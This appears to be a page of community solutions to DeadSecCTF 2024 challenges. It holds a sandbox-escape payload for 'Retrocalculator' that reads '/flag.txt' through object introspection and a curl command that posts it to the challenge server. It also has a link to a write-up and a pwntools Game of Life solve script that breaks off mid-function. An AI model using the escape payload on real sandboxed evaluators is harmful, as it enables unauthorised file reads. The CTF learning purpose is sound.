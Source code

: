 **By @yuuna4173**
- Solve for `Retrocalculator`

```plaintext
{"inputs": "Object.getOwnPropertyNames({}).__getattribute__('__getattribute__')('__class__').__base__.__subclasses__()[99].get_data(0, '/flag.txt')"}
```

```bash
curl -H 'Content-Type:application/json' 'https://17364dd12d19fe7e6a7f321c.deadsec.quest/result' -d @payload
```

**By @mumuzi1**
- <https://mumuzi7179.github.io/docs/Blog/CTFWP/DeadSecCTF2024>


**By @rookiecookiefx**
- Solve script for `GOLParty`

```python
from pwn import *
import numpy as np

context.log_level = 'debug'

ON = 255
OFF = 0

def count_live_neighbors(grid, x, y, M, N):
    directions = [(-1, -1), (-1, 0), (-1, 1),
                  (0, -1),         (0, 1),
                  (1, -1), (1, 0), (1, 1)]
    count = 0
    for dx, dy in directions:
        nx, ny = x + dx, y + dy
        if 0 <= nx < M and 0 <= ny < N:
            count += grid[nx][ny] == ON
    return count

def nextGeneration(grid):
    M, N = grid.shape
    # Add padding of OFF cells to allow for potential expansion
    expanded_grid = np.pad(grid, pad_width=1, mode='constant', constant_values=OFF)
    future = np.zeros_like(expanded_grid)

    for l in range(expanded_grid.shape[0]):
        for m in range(expanded_grid.shape[1]):
            aliveNeighbours = count_live_neighbors(expanded_grid, l, m, expanded_grid.shape[0], expanded_grid.shape[1])

            if expanded_grid[l, m] == ON:
                if 2 <= aliveNeighbours <= 3:
                    future[l, m] = ON
            else:
                if aliveNeighbours == 3:
                    future[l, m] = ON

    # Remove any completely empty rows and columns around the future grid
    # future = trim_grid(future)
    return future

def trim_grid(grid):
    # Find non-zero rows and columns
    non_empty_rows = np.any(grid == ON, axis=1)
    non_empty_cols = np.any(grid == ON, axis=0)

```